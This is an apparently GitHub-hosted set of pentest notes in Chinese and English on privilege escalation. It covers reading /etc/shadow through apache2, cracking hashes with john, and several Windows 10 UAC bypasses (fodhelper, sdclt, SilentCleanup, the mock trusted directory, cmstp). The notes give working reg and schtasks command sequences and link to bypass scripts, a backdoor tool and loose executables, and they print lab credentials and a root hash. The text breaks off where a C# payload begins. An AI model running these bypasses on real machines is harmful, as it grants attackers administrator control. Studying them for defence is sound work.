













user:touhid password:test







user:hacker password:test















**sudo apache2 -f /etc/shadow**

Syntax error on line 1 of /etc/shadow:

Invalid command
'root:\$6\$bxwJfzor\$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::',
perhaps misspelled or defined by a module not included in the server
configuration

**Cracking linux password with john the ripper**

John is different from tools like hydra. Hydra does blind bruteforcing by trying
username/password combinations on a service daemon like ftp server or telnet
server. John however needs the hash first.

Now a days hashes are more easily crackable using free rainbow tables available
online.

But still if you want to crack a password locally on your system then john is
one of the good tools to try.

use the unshadow command along with john to crack the password of users on a
linux system. On linux the username/password details are stored in the following
2 files

>   /etc/passwd

>   /etc/shadow







Now john was able to crack, only because the password was present in the
password list. If it were not there then john would have failed.

The 1 password that was left, was of user root. No password in the provided
wordlist could crack it.

This will try "single crack" mode first, then use a wordlist with rules, and
finally go for "incremental" mode.

https://github.com/0x00-0x00/FakePip

**\#3). Windows UAC:**

账户被分为标准用户和管理员，登录系统以后会有对应的token
生成，它限制了访问等权限级别。而系统中的所有任务的执行也对应的需要不同的账户的token，有的需要管理员级别的token，有的仅需要标准用户级别的token。如果你的权限是管理员级别的token
去执行系统中的任务，那么还提个什么权，已经是最高级别权限了。这里肯定是从标准用户权限提升到管理员权限去执行任务。

UAC启动以后，不管你用什么账户登录，都是以标准用户的token
去执行任务的。这样一来恶意软件就不能静悄悄的安装了。它会弹出UAC
窗口，询问您是否安装。你是管理员账户，点同意直接就运行了。如果你是标准用户的账户，点同意，没有管理员的账号密码自然是阻止的。弹出来的UAC
窗口叫做安全桌面，恶意程序也会模仿这个安全桌面弹一个UAC 的钓鱼窗口提示你点是。

**First entry: Welcome and fileless UAC bypass(已复现):**

Tested on: Windows 10.0.15063

Attack vector:

fodhelper.exe

Preconditions:

>   The current user is member of the local administrator group

>   The operating system is Windows 10

Implementation:

Fodhelper.exe was introduced in Windows 10 to manage optional features like
region-specific keyboard settings. It’s location is:
C:\\Windows\\System32\\fodhelper.exe and it is signed by Microsoft.

check the signature of a file with a tool named “sigcheck”:

https://docs.microsoft.com/zh-cn/sysinternals/downloads/sysinternals-suite

As you can see in the picture above, the program is allowed to elevate itself to
run in a high integrity context automatically. There is no need for any user
interaction to allow the process to elevate. This means that if we are able to
tamper the behavior of the binary to load a file of our choice, this file may
start in a high integrity context, too.

How to investigate the behavior of the file to find a concrete attack vector?
=\> Process Monitor!The Process Monitor is another tool written by Mark
Russinovich which is also a part of the Sysinternals Suite.
https://docs.microsoft.com/zh-cn/sysinternals/downloads/procmon

When initiating the start of fodhelper.exe, process monitor starts to capture
the process and reveals (among other things) every read- or write-activity to
the registry and filesystem. One of the interesting activities are the read
accesses to registry, although some specific keys or values are not found.
Especially registry keys in HKEY_CURRENT_USER are great to test how the behavior
of a program may change after the creation of a not yet existing registry key,
because we do not need special privileges to modify entries.

E.g. fodhelper.exe is looking for
“HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command”. By default this
key does not exist in Windows 10.

After creation of the key:
“HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command”, fodhelper.exe
will find it and will start looking for the value:
“HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command\\DelegateExecute”
which it would not look for, if the mentioned key did not exist. As soon as the
value “DelegateExecute” exists, it will be found, too, even if it is empty.

Once the value “DelegateExecute” is created, fodhelper.exe will look for the
default value in:
“HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command\\”.

This value is the critical point. The registry value
“shell\\open\\command\\(default)” enables us to provide to the program
additional instructions what to do when the program opens.

In this scenario, I set the value of “shell\\open\\command\\(default)” to:
“C:\\Windows\\System32\\cmd.exe /c powershell.exe”. After this modification,
fodhelper.exe will lookup the (default)-value and follow the instructions how to
behave after the process starts. =\> start cmd.exe which starts powershell.exe
(just checking if it is possible to pass parameters to cmd.exe, too)

As you can see, fodhelper.exe reads the (default)-value and starts cmd.exe with
the provided parameters.

The result is an cmd.exe starting in a high integrity context which starts a
powershell.exe in a high integrity context. In the picture below, you can see
both the exact registry structure needed for this proof of concept and the
cmd.exe started as an administrator.

To demonstrate this vulnerability, I created and published a script on Github,
which will create the registry keys, opens up “C:\\Windows\\System32\\cmd.exe /c
powershell.exe” and which deletes the registry keys.

https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1

获得administrator运行权限的shell:

Advantages:

There is no need to drop a file on disk.

There is no need to hijack any .dll file

There is no need for any suspicious action on the operating system which could
alert an antivirus software.

Mitigations:

Do not use a local administrator account if you do not have to. Restricted users
are not able to execute and elevate such programs.

Set the UAC level to “Always notify”, which leads to a prompt that needs to be
accepted by the user.

**BYPASSING UAC ON WINDOWS 10 USING DISK CLEANUP(未复现，可能已修复):**

A common technique used to investigate loading behavior on Windows is to use
SysInternals Process Monitor to analyze how a process behaves when executed.
After investigating some default Scheduled Tasks that exist on Windows 10 and
their corresponding actions, we found that a scheduled task named
“SilentCleanup” is configured on stock Windows 10 installations to be launchable
by unprivileged users but to run with elevated/high integrity privileges.

To find this, we simply went through each task and inspected the security
options for “Run with Highest Privileges” to be checked with a non-elevated User
Account (such as ‘Users’).

Taking a closer look with procmon, we found that the actual process started by
the scheduled task, cleanmgr.exe, auto-elevates due to “execute with highest
privileges” being set in the task configuration.

Let’s dive in a bit more. When cleanmgr.exe executes, it creates a new folder
with the name of a GUID in “C:\\Users\\\<username\>\\AppData\\Local\\Temp”.

Once cleanmgr.exe creates the temporary folder, it then copies multiple DLLs
along with “dismhost.exe” into the new folder:

After copying DismHost.exe and its DLLs to
“C:\\Users\\\<username\>\\AppData\\Temp\\\<guid\>”, cleanmgr.exe then starts
“dismhost.exe” out of the newly created path as a high integrity process:

Since dismhost.exe launches out of
“C:\\Users\\\<username\>\\AppData\\Local\\Temp\\\<guid\>”, it begins to load
DLLs out of the same folder in a certain order:

Because the current medium integrity process has write access to the user’s
%TEMP% directory, it is possible to hijack a DLL loaded by dismhost.exe and
obtain code execution in a high integrity process. This is commonly known as a
“BypassUAC” attack.

Since this particular situation is a race condition, we have to replace the
target DLL before dismhost.exe loads it. We examined the entire process more
closely and determined that “LogProvider.dll” is the last DLL loaded by
dismhost.exe, giving us the best chance for a hijack opportunity. With this
information, we can use a WMI event to monitor for the creation of
“C:\\Users\\\<username\>\\AppData\\Local\\Temp\\\<guid\>” and then assign that
WMI event an action of hijacking “LogProvider.dll” by copying our “malicious”
DLL into “C:\\Users\\\<username\>\\AppData\\Local\\Temp\\\<guid\>” and naming it
“LogProvider.dll”. Since this action happens before dismhost.exe loads it, it
will load our DLL instead of the intended one.

Once dismhost.exe loads the DLL, it will load as high integrity, allowing us to
bypass User Access Control and obtain code execution as a high integrity
process.

After additional testing, this technique does not apply to standard user
accounts as cleanmgr.exe does not extract any files to %TEMP%. When executed as
a standard user in low or medium integrity, the task runs as medium integrity
and never elevates past that.

An excellent PoC PowerShell script that will register a WMI event to monitor for
the creation of the GUID folder by cleanmgr.exe and once detected, it will take
the specified DLL and copy it to the GUID folder with the name of
“LogProvider.dll”. Once dismhost.exe goes to load “LogProvider.dll”, it will be
our malicious DLL instead of the legitimate one, thus bypassing UAC and giving
us code execution in High Integrity context.

script url:

https://gist.githubusercontent.com/mattifestation/b4072a066574caccfa07fcf723952d54/raw/08155ad6524fd0554c7b0764445573da1fac602a/UACBypass.ps1

To test this, you simply need the PoC script and a DLL with a standard export of
dllmain. For testing, you can either create your own DLL or use a simple
MessageBox one located here: https://github.com/enigma0x3/MessageBox

普通用户(无法观察到C:\\users\\dnu\\appdata\\local\\temp\\GUID目录自动创建和删除):

本地管理员组用户(可观察到C:\\users\\user1\\appdata\\local\\temp\\GUID目录自动创建和删除):

This technique differs from the other public techniques by having a few benefits
that can be handy:

1.This technique does not require any process injection, meaning the attack
won’t get flagged by security solutions that monitor for this type of behavior.

2.There is no privileged file copy required. Most UAC bypasses require some sort
of privileged file copy in order to get a malicious DLL into a secure location
to setup a DLL hijack. Since the scheduled task copies the required stuff to
%TEMP%, no privileged file copy is required.

3.This technique cleans up after itself. After the scheduled task is done (and
loads our malicious DLL), the task deletes the GUID folder (and files) that it
created in %TEMP%.

4.This technique works with the UAC level being set at its highest setting
(“Always Notify”) since the task is set to run with “Highest Privileges”. The
majority of the public UAC bypasses rely on the IFileOperation COM object to
perform a privileged file copy. IFileOperation honors the “Always Notify” UAC
setting and prompts when set, causing the privileged file copy to fail:

This was disclosed to Microsoft Security Response Center (MSRC) on 07/20/2016.
As expected, they responded by noting that UAC isn’t a security boundary, so
this doesn’t classify as a security vulnerability, as stated here. While not a
vulnerability, it does allow an attacker an alternate method to move to high
integrity that differs from previous bypasses and introduces one more location
or chokepoint that must be monitored to observe attacker behavior.

This particular technique can be remediated or fixed by disabling the task or
removing the requirement for running with highest privileges. Further, if you
would like to monitor for this attack, you could utilize methods/signatures to
look for new WMI events as it is required to monitor for new folder creation for
this attack to succeed. Combining this with App/DLL whitelisting and monitoring
for abnormal modules being loaded (e.g. Sysmon event ID 7) would also limit the
success of such an attack.

**Exploiting Environment Variables in Scheduled Tasks for UAC Bypass(未复现，it
should already be fixed in the version of RS3):**

This short blog is about a quick and dirty UAC bypass I discovered which works
silently even with UAC is set to the highest prompt level and can be executed
without dropping any files (other that a registry key) to disk.

I was poking around various scheduled tasks and noticed one which looked
interesting, SilentCleanup. The reason this is interesting is it's a marked as
auto-elevating (so will silently run code as UAC admin if the caller is a
split-token administrator) and it can be manually started by the
non-administrator user.

Matt Nelson already found a UAC bypass in this scheduled task but as far as can
be determined it's already been fixed, so is there still a way of exploiting it?
Let's dump some of the task's properties using Powershell to find out.

what account the task runs as:

what to run:

In the Principal property we can see the Group to run as is Authenticated Users
which really means it will run as the logged on user starting the task. We also
see the RunLevel is set to Highest which means the Task Scheduler will try and
elevate the task to administrator without any prompting.

Now look at the actions, it's specifying a path, but notice something
interesting? It's using an environment variable as part of the path, and in UAC
scenarios these can be influenced by a normal user by writing to the registry
key HKEY_CURRENT_USER\\Enviroment and specifying a REG_SZ value.

I dropped a simple executable to c:\\dummy\\system32\\cleanmgr.exe, set the
windir environment variable to c:\\dummy and started the scheduled task I
immediately get administrator privileges.

Automate the process:

BATCH as we can use the reg and schtasks commands to do all the work we need.

Also as we don't want to drop a file to disk we can abuse the fact that the
executable path isn't quoted by the Task Scheduler, meaning we can inject
arbitrary command line arguments and just run a simple CMD shell.

reg add hkcu\\Environment /v windir /d "cmd /K reg delete hkcu\\Environment /v
windir /f && REM "

schtasks /Run /TN \\Microsoft\\Windows\\DiskCleanup\\SilentCleanup /I

If you want to mitigate now you should be able to reconfigure the task to not
use environment variables using the following Powershell script run as
administrator (doing this using the UAC bypass is left as an exercise for
reader).

\$action = New-ScheduledTaskAction -Execute \$env:windir\\System32\\cleanmgr.exe
-Argument "/autoclean /d \$env:systemdrive"

Set-ScheduledTask SilentCleanup -TaskPath \\Microsoft\\Windows\\DiskCleanup
-Action \$action

If you want to find other potential candidates the following Powershell script
will find all tasks with

executable actions which will auto elevate. On my system there are 4 separate
tasks, but only one (the SilentCleanup task) can be executed as a normal user,
so the rest are not exploitable.

\$tasks = Get-ScheduledTask \| Where-Object { \$_.Principal.RunLevel -ne
"Limited" -and \$_.Principal.LogonType -ne "ServiceAccount" -and \$_.State -ne
"Disabled" -and \$_.Actions[0].CimClass.CimClassName -eq "MSFT_TaskExecAction" }

**Yet another sdclt UAC bypass(已复现):**

Origin of the bypass

As often with UAC, the flaw comes from an auto-elevated process. These processes
have the particularity to run with high integrity level without prompting the
local admin with the usual UAC window. If the user running with medium
privileges can make these process load a dll or execute a command, UAC bypass is
performed.

The method I found is fileless and is based on COM hijacking.

Some interesting events which occur when sdclt.exe is called from a medium
integrity process:

It runs another process of sdclt.exe with high privilege

The high privilege sdclt process calls C:\\Windows\\System32\\control.exe

Control.exe process runs with high privilege and ....

Using Sysinternals Procmon, we can see that control.exe is failing to find an
open command for the "folder" object in the current user registry (HKCU).

This is very good sign for someone looking to bypass UAC! That is because UAC
privileges are not required to write in there so we can basically make an
elevated process run a command even if we are in the context of medium integrity
process.

Exploit the bypass

You can easily test this UAC bypass with a few command lines.

Setup the registry:

本地管理员组成员执行:

reg add "HKCU\\Software\\Classes\\Folder\\shell\\open\\command" /d "cmd.exe /c
powershell.exe" /f && reg add
HKCU\\Software\\Classes\\Folder\\shell\\open\\command /v "DelegateExecute" /f

%windir%\\system32\\sdclt.exe

reg delete "HKCU\\Software\\Classes\\Folder\\shell\\open\\command" /f

**Mocking Trusted Directory bypass windows 10 UAC(已复现):**

This UAC prompt however, is not popped for ALL administrative executables on
Windows. There are a few exceptions that will “auto elevate” the target
executable with no UAC prompt being thrown thus bypassing UAC (to many’s
surprise!). This select group of trusted executables have additional security
checks done to them to ensure they are in fact trusted so this feature is not
abused by malicious actors. There are a few loopholes we need to bypass for this
attack to succeed however.

Let’s check out some of these requirements that are enforced if we want our
executable to “auto elevate”. For this, I will show some disassembly shots of
appinfo.dll (the AIS service that processes elevation requests — one of the core
components of UAC).

Requirement 1: File is Configured for Auto Elevation

When a request to elevate a program occurs, an RPC call is made to AIS
(appinfo.dll) with the target executable path passed as an argument. This
service will then map the target executable file contents for reading. The
executable’s manifest is attempted to be read in order to obtain a value for a
potential “autoElevate” key (if it exists).

If found and the value is “True,” it will be considered an auto elevating
executable which will be ran elevated and bypass any UAC dialog (provided it
passed the next requirements mentioned later).

There is one exception to this “autoElevate” rule however. Regardless of
manifest, if the file name itself matches one of the whitelisted EXE names, it
will also be considered an “auto elevating” executable. Below you’ll see a
bsearch call after this manifest check to see if the file name exists in a list
of whitelisted executable names. If the exe name matches one of these executable
names, then auto elevation will be attempted regardless of manifest.

A few of these hardcoded whitelisted file names are:

‘cttunesvr.exe’, ‘inetmgr.exe’, ‘migsetup.exe’, ‘mmc.exe’, ‘oobe.exe’,
‘pkgmgr.exe’, ‘provisionshare.exe’, ‘provisionstorage.exe’, ‘spinstall.exe’,
‘winsat.exe’

Requirement 2: Properly Signed

Assuming the binary being submitted for UAC request is considered “auto
elevating,” it will now do a signature check using wintrust!WTGetSignatureInfo.
This means an attacker won’t be able to simply craft their own “autoElevating”
manifest or executable file name to get auto elevation to succeed, as the
attacker’s binary is most likely not properly signed and it also probably
doesn’t pass the last requirement, which is Executing from Trusted Directory.

Requirement 3: Executing from Trusted Directory

The last auto elevating requirement is that the target executable resides in a
“trusted directory,” such as “C:\\Windows\\System32”. Figure 3 shows AIS doing
this check on a path requesting elevation, in this case one of the paths its
considering “trusted” is “C:\\Windows\\System32”.

auto elevation (UAC bypass) will occur for executables that are

Configured for Auto Elevation

Properly Signed

Executing from a trusted directory (“C:\\Windows\\System32”) .

Appinfo.dll (AIS) will use RtlPrefixUnicodeString API to see if the target
executable path begins with “C:\\Windows\\System32\\” for one of the trusted
directory checks. This is pretty bullet proof check considering its comparing
against the canonicalized path name of the target executable requesting
elevation. So for bypassing this check, I construct a directory called
“C:\\Windows \\” (notice trailing space after “Windows”). This won’t pass the
RtlPrefixUnicodeString check of course, and I’ll also mention that this is
somewhat invalid (or in the very least “unfriendly”) directory name, as Windows
does not allow trailing spaces when you create a directory (try it). Using the
CreateDirectory API however, and prepending a “\\\\?\\” to the directory name I
want to create, we can bypass some of these naming filter rules and send the
directory creation request directly to file system. (Long
UNC亦可创建末尾含有空格的文件夹)

This results in a bit of an awkward directory happily coexisting on the
filesystem alongside the real “C:\\Windows\\” (except for when you try to do
anything with it in Windows Explorer).

Now that we have a “C:\\Windows \\“ directory, we can create a “system32”
directory in it and copy one of the signed, auto elevating executables from the
real “C:\\Windows\\System32”. For this, I copied “winSAT.exe” (one of the
whitelisted auto elevating Windows executables). When we attempt to run this
“C:\\Windows \\System32\\winSAT.exe”, it will go through the following APIs
(seen in Figure 6) in appinfo.dll before performing the trusted directory check.
This is important, and core of why this bypass works.

When this awkward path is sent to AIS for an elevation request, the path is
passed to GetLongPathNameW, which converts it back to
“C:\\Windows\\System32\\winSAT.exe” (space removed). Perfect! This is now the
string that trusted directory checks are performed against (using
RtlPrefixUnicodeString) for the rest of the routine. The beauty is that after
the trusted directory check is done with this converted path string, it is then
freed, and rest of checks (and final elevated execution request) are done with
the original executable path name (with the trailing space). This allows all
other checks to pass and results in appinfo.dll spawning my winSAT.exe copy as
auto elevated (since it is both properly signed and whitelisted for auto
elevation).

To actually elevate attacker code through this, I simply dropped a fake
WINMM.dll (imported by winSAT.exe) in its current directory “C:\\Windows
\\System32\\” for a local dll hijack.

os info:

hj.dll:

所需文件:

https://www.pconlife.com/dfiles/20200219/2194089f33fe9a77d60d00a66892f60b/link.exe

https://download.zip.new.dll-files.com/493ba63bb2071fc04d9b76e6e44eb636/mspdb60.zip?token=ybJQBAXhJ0paxGHe5UeECA&expires=1582151165

https://www.pconlife.com/dfiles/20200219/00626c6902647063de738a59a9f767c6/dumpbin.exe

https://raw.githubusercontent.com/michaellandi/exportstoc/master/ExportsToC%2B%2B/bin/Release/ExportsToC%2B%2B.exe

http://wangshuo.jb51.net:81/201808/tools/vc6_cn_full_jb51.rar

执行后依然无法弹回shell

使用https://github.com/secretsquirrel/the-backdoor-factory:

成功弹回已BypassUAC的shell，点击OK后shell正常，关闭WinSAT.exe后shell也会关闭

ComputerDefaults.exe利用

C:\\Windows\\System32下有60个AutoElevate为true的二进制文件，总共有13个二进制文件可用于通过模拟可信目录进行劫持DLL

**bypass UAC in newer Windows versions through cmstp.exe(已复现):**

This time we are going to craft a PowerShell Script to bypass UAC.

In other words, we are going to use a Medium Integrity process that belongs to a
Local Administrator to spawn a new High Integrity process, with all privileges
available.

UAC (User Account Control) is a security feature, introduced from Windows 7 and
onward versions of Windows. This prevents that even a local administrator
account can’t execute changes to operating system, unless the user specifically
chooses to. It is very common to see desktop users working with Administrators
account (not recommended, but common), so even if a Malware, using a compromised
Local Administrator account, tries to change something in the registry, or
create a new service in the system, UAC won’t let that happen.

Until someone found a way to bypass it. And there are a lot of UAC bypasses
since Windows 7. It became so common that even Microsoft treats this kind of
problem as “non-priority” security issue.

One way of checking if you are in a Medium Integrity process is to run the
command whoami /priv and see if all privileges are available.

When you start something “As Administrator”, and run whoami /priv, you will find
out that there is a lot more.

the amazing research of Oddvar Moe about exploiting microsoft “cmstp.exe” as a
way to bypass UAC.

Tyler Applebaum powershell script that could trigger this vulnerabiity as well.

With all these information, I decided to work in this technique and develop my
own, but to keep originality, I chose to code it in C\#, so we can produce a
PowerShell script with DLL reflection and very few strings so AMSI will have a
hard time blocking it.

The resulting C\# code is this one:

/\*

